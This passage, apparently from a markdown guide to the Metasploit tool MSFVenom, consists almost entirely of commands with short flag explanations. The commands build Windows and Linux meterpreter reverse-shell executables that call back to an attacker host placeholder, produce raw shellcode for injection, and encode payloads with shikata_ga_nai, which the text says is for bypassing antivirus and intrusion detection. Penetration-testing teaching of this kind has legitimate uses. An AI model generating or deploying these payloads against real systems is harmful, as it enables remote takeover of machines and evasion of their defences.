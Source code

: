 ```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=4444 -e x86/shikata_ga_nai -f exe -o shell_encoded.exe
```

- **`-e x86/shikata_ga_nai`**: Specifies the encoder to use (Shikata Ga Nai, a polymorphic XOR additive feedback encoder).

### List Available Payloads
To list all available payloads in MSFVenom:

```sh
msfvenom -l payloads
```

- **`-l payloads`**: Lists all available payloads in the Metasploit Framework.

### List Available Encoders
To list all available encoders in MSFVenom:

```sh
msfvenom -l encoders
```

- **`-l encoders`**: Lists all available encoders.

### Generate Shellcode
To generate raw shellcode for injection purposes:

```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=4444 -f raw -o shellcode.bin
```

- **`-f raw`**: Specifies the output format as raw shellcode.

## Key Features and Options

### Payload Generation
- **Description:** Creates payloads for various platforms, including Windows, Linux, macOS, Android, and iOS, to be used in exploits and social engineering.
- **Usage:**
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=4444 -f exe -o shell.exe
```

### Encoding and Obfuscation
- **Description:** Encodes payloads using different encoders to bypass antivirus and intrusion detection systems.
- **Usage:**
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=4444 -e x86/shikata_ga_nai -f exe -o shell_encoded.exe
```

### Multi-Format Output
- **Description:** Supports multiple output formats, including executables, scripts, shellcode, raw binaries, and more.
- **Usage:**
```sh
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=4444 -f elf -o shell.elf
```
